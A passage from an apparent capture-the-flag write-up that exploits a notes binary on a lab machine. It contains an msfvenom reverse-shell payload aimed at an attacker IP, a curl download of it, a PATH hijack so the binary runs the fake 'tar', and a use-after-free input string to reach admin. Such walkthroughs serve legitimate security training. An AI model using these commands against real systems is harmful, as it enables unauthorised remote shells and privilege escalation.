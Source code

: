```
    case 3:
      if (local_10 != (void *)0x0) {
        free(local_10);
      }
      break;
```

### Exploiting the binary

To exploit the binary we first need to create a reverse shell named tar.
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.65 LPORT=443 -f elf > tar
```

Then i downloaded the binary using curl and made it executable using chmod

```
curl http://10.10.14.54/tar -o tar 
chmod +x tar
```
next up we change our path variable to include our current path first. This will make the notes application select our tar file instead of the real one.

```
PATH="/tmp/.hidden/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
```

Next we run the application and create a username  using the 1 function.It doesn't matter what value you give this name

![Username](/assets/img/Gofer/Gofer_12.png)

Next delete the username with function 3. Then after that write the following string as note using function 4
```
CCCCCCCCCCCCCCCCCCCCCCCCadmin
```